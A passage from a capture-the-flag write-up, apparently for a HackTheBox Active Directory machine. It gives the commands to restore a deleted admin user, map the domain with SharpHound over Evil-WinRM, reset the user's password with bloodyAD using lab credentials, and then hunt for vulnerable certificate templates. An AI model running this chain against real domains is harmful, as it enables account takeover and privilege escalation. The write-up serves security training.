 ```
uSNCreated                      : 13186
whenChanged                     : 11/16/2024 12:07:27 PM
whenCreated                     : 11/16/2024 12:07:04 PM
```

**We can restore the deleted user cert_admin** because it is still in the **Deleted Objects** tomb of **Active Directory**. This is confirmed by several indicators in the information we obtained: `isDeleted: True shows` the object exists but is deleted, and `LastKnownParent: OU=ADCS` shows where it was located before deletion. Additionally, since we have **GenericAll** over the **ADCS** OU with the user **John**, we have the necessary permissions to restore it.

```
Get-ADObject -Filter {ObjectSID -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"} -IncludeDeletedObjects | Restore-ADObject
```

Next, we perform a new d**omain mapping** from inside, using **SharpHound.exe**.

```
wget https://github.com/SpecterOps/SharpHound/releases/download/v2.7.1/SharpHound_v2.7.1_windows_x86.zip
unzip SharpHound_v2.7.1_windows_x86.zip
```

We **upload** the executable to the machine with **Evil-WinRM**:

```
upload SharpHound.exe
```

And run a full domain scan.

```
.\SharpHound.exe -c All -d tombwatcher.htb
```

Finally, we **download** the resulting **ZIP** file using the download command followed by the file name.

![18](/images/writeups/tombwatcher/18.png)

We upload it to **BloodHound**, which now shows much more information about **John** than before.

![19](/images/writeups/tombwatcher/19.png)

The **Cert_Admin** user has been successfully restored, and since we have **GenericAll** over it, we proceed to change its password.

```
bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u 'john' -p 'john123' set password 'cert_admin' 'admin1234'

[+] Password changed successfully!
```

We then run **Certipy-ad** again, but this time using the **Cert_Admin** user to **search for vulnerable certificates**.
